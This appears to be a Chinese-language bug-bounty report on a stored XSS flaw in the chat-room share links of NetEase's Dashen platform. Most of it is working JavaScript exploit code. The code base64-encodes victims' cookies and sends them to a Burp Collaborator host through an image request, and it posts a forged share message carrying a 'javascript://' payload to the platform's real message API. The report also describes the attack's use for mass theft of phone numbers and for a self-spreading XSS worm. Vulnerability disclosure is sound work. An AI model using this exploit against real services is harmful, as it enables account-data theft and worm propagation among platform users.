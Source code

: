         // 通过img src来向burpsuite collaborator url外送敏感新信息
        const justSend = async url => {
            var Img = new Image
            Img.src = url
        }

        // base64 加解密
        const encode = str => {
            var b64 = btoa(unescape(encodeURIComponent(str)))
            return b64
        }
        const decode = str => {
            var str = decodeURIComponent(escape(atob(str)));
            return str
        }
        //获取并发送cookie，可能带有手机号
        const sendCookie = () => {
            var encoded = encode(document.cookie)
            // send data
            justSend(api_burp + '?data=' + encoded)
        }

        // 发送xss payload
        const startSendLinkMessage = async function () {

            // 链接，设置fromUid为攻击者的UID
            var payload_json = { "serverId": "0149881871", "channelId": "1459515", "squareId": "60054a7dd5456877d226706e", "fromUid": "b1fbb501020c46ff88577a3fe103c0ec", "fromNick": "", "msgType": "CHAT_ROOM_MSG", "sourceType": "GOD_WEB", "content": { "attachType": "link", "attachData": { "title": "p", "url": "javascript://%0avar a=\"163.com\";alert(document.cookie);", "desc": "o", "icon": "https://baidu.com/p.png" } }, "contentType": "SHARE" }

            var headers = setHeaderDs(JSON.stringify(payload_json))
            res = await myPostFetch('https://inf-im.ds.163.com/v1/web/chat-room-msg/send-msg', headers, payload_json)
        }
        // 判断pc端还是手机端
        const isMobile = /iPhone|iPad|iPod|Android/i.test(navigator.userAgent);
        if (isMobile) {
            /* your code here */
        } else {
            //web端
            //伪造发分享消息
            startSendLinkMessage()
            //发送cookie
            sendCookie()
            
        }


## 漏洞危害
通过发送受诱惑的链接，诱导受害者点击，便可完成xss攻击。注意到大神平台多款游戏频道用户超过几十上百万，影响深远。
1. 攻击者可以在聊天群发送xss链接，用户点击后能够执行，大规模收集平台用户手机号和账号信息，造成敏感信息泄漏；
2. 攻击者可以在聊天群发送xss链接，用户点击后能够执行，伪造用户发消息等，制造XSS蠕虫，实现XSS帖子的自我复制，扩大影响。

## 修复建议
1. 对用户的分享链接进行过滤

